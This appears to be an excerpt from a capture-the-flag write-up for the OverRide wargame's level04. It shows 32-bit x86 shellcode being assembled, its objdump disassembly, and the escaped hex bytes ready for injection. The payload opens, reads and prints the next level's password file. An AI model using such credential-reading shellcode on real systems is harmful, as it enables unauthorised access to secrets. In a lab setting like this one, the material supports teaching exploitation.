 ```
level04@OverRide:~$ as -32 /tmp/shellcode.asm -o /tmp/shellcode.o
level04@OverRide:~$ ld -m elf_i386 -o /tmp/shellcode /tmp/shellcode.o
level04@OverRide:~$ objdump -d /tmp/shellcode
/tmp/shellcode: file format elf32-i386
Disassembly of section .text:
08048054 <start>:
 8048054:       83 e4 f0                and    $0xfffffff0,%esp
 8048057:       83 ec 40                sub    $0x40,%esp
 804805a:       31 c0                   xor    %eax,%eax
 804805c:       83 c0 73                add    $0x73,%eax
 804805f:       89 44 24 18             mov    %eax,0x18(%esp)
 8048063:       c7 44 24 14 2e 70 61    movl   $0x7361702e,0x14(%esp)
 804806a:       73
 804806b:       c7 44 24 10 6c 30 35    movl   $0x2f35306c,0x10(%esp)
 8048072:       2f
 8048073:       c7 44 24 0c 6c 65 76    movl   $0x6576656c,0xc(%esp)
 804807a:       65
 804807b:       c7 44 24 08 65 72 73    movl   $0x2f737265,0x8(%esp)
 8048082:       2f
 8048083:       c7 44 24 04 65 2f 75    movl   $0x73752f65,0x4(%esp)
 804808a:       73
 804808b:       c7 04 24 2f 68 6f 6d    movl   $0x6d6f682f,(%esp)
 8048092:       89 e3                   mov    %esp,%ebx
 8048094:       31 c9                   xor    %ecx,%ecx
 8048096:       31 d2                   xor    %edx,%edx
 8048098:       31 c0                   xor    %eax,%eax
 804809a:       83 c0 05                add    $0x5,%eax
 804809d:       cd 80                   int    $0x80
 804809f:       89 c3                   mov    %eax,%ebx
 80480a1:       89 e1                   mov    %esp,%ecx
 80480a3:       31 d2                   xor    %edx,%edx
 80480a5:       83 c2 28                add    $0x28,%edx
 80480a8:       31 c0                   xor    %eax,%eax
 80480aa:       83 c0 03                add    $0x3,%eax
 80480ad:       cd 80                   int    $0x80
 80480af:       31 db                   xor    %ebx,%ebx
 80480b1:       83 c3 01                add    $0x1,%ebx
 80480b4:       89 e1                   mov    %esp,%ecx
 80480b6:       31 d2                   xor    %edx,%edx
 80480b8:       83 c2 28                add    $0x28,%edx
 80480bb:       31 c0                   xor    %eax,%eax
 80480bd:       83 c0 04                add    $0x4,%eax
 80480c0:       cd 80                   int    $0x80
```

```
\x83\xe4\xf0\x83\xec\x40\x31\xc0\x83\xc0\x73\x89\x44\x24\x18\xc7\x44\x24\x14\x2e\x70\x61\x73\xc7\x44\x24\x10\x6c\x30\x35\x2f\xc7\x44\x24\x0c\x6c\x65\x76\x65\xc7\x44\x24\x08\x65\x72\x73\x2f\xc7\x44\x24\x04\x65\x2f\x75\x73\xc7\x04\x24\x2f\x68\x6f\x6d\x89\xe3\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x05\xcd\x80\x89\xc3\x89\xe1\x31\xd2\x83\xc2\x28\x31\xc0\x83\xc0\x03\xcd\x80\x31\xdb\x83\xc3\x01\x89\xe1\x31\xd2\x83\xc2\x28\x31\xc0\x83\xc0\x04\xcd\x80
```
